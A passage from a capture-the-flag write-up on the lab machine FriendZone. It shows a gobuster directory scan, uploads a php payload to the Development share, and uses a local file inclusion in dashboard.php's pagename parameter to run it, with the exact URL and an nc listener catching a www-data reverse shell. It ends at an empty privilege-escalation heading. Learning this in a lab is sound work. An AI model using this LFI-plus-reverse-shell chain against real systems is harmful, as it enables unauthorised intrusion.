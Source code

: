     ===============================================================
    ```
    
- hr
    
    ```bash
    ┌──(kali㉿kali)-[~/…/linux/friendzone/files/administrator1]
    └─$ gobuster dir -k -w  ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php --url  https://hr.friendzone.red
    ===============================================================
    Progress: 188287 / 441122 (42.68%)^C
    [!] Keyboard interrupt detected, terminating.
    Progress: 188296 / 441122 (42.69%)
    ===============================================================
    ```
    

# Uploading a file to Development share

When upload a file called payload with extension php and zip we found it in the next locations.

- https://uploads.friendzone.red/
- https://uploads.friendzone.red/files/
- https://uploads.friendzone.red/development/
- https://uploads.friendzone.red/Development/
- https://hr.friendzone.red/development/
- https://hr.friendzone.red/Development/
- http://friendzone.red/wordpress/

The route to the development share is /etc/Development. We can infier this from the comment in the Files share.

# Executing the payload

If we upload a reverse shell to Development share we will be able to acces this using a LFI vulnerability present in the administrator1 subdomain.

- `https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/payload`

We receive a shell

```bash
┌──(kali㉿kali)-[~/tools]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.123] 58266
bash: cannot set terminal process group (759): Inappropriate ioctl for device
bash: no job control in this shell
www-data@FriendZone:/var/www/admin$
```

A little bit of enumeration and we get to find the password for the user friend

# Privilege escalation

